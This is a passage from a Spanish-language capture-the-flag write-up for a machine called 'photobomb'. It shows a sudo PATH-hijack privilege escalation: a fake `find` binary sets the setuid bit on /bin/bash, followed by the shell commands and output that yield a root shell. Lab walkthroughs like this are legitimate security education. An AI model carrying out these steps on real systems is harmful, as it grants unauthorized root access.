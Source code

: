 Hay algo que llama bastante la atención, el comando `find` no tiene ruta absoluta, así que esto nos indica que podemos hacer un secuestro del path y ejecutar comandos arbitrarios como el usuario root (teniendo en cuenta también los permisos asignados):

Nos desplazamos a la ruta `tmp`, creamos un nuevo archivo llamado `find` (como el comando), dentro de él escribimos la instrucción que queremos ejecutar una vez se procese el archivo `/opt/cleanup.sh` llegado al punto de ejecutar el comando `find` dentro de él. Le damos todos los permisos (777), actualizamos el `PATH` con nuestra nueva ruta donde estará nuestro archivo malicioso (`/tmp`) y ejecutamos el comando que nos han asignado a nivel de `sudoers` como `sudo`. Es decir `/opt/cleanup.sh`. Revisamos el `UID` del binario `/bin/bash` para asegurarnos que todo ha salido bien. Tiene el permiso `s`. El documento lo podemos ejecutar como superusuario:
```shell
wizard@photobomb:~/photobomb$ cd /tmp
wizard@photobomb:/tmp$ echo 'chmod u+s /bin/bash' > find
wizard@photobomb:/tmp$ chmod 777 find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
wizard@photobomb:/tmp$
```

Ejecutamos el binario `/bin/bash` con el parámetro `-p`, el cual nos indica que vamos a iniciar sesión interactiva con una shell Bash con permisos de superusuario:
```shell
wizard@photobomb:/tmp$ /bin/bash -p
bash-5.0\# whoami
root
bash-5.0\#
```

¡Happy Hacking!

